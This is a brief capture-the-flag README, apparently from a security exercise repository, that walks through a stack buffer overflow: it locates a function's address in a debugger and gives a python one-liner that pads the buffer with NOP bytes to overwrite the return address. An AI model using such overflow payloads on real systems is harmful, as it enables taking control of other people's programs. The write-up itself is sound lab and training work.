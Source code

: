 ## Flag6 README: Finding Flag6

So the idea is the same because when you write something more long that the size of the buffer you will write to the eip adress. So we can fill the buffer with \x90 (no-op) and then the adress of n. Let's try this.

adress of n =
$1 = {<text variable, no debug info>} 0x8048454 <n>

buffer is size 64 + the size to overflow 4 and then the 4 byte that we need to write to eip the adress in little endian.

64 + 4 + 4 = 72
and the adress = \x54\x84\x04\x08

so
``` bash
python -c 'print("\x90" * 72 + "\x54\x84\x04\x08")'
```
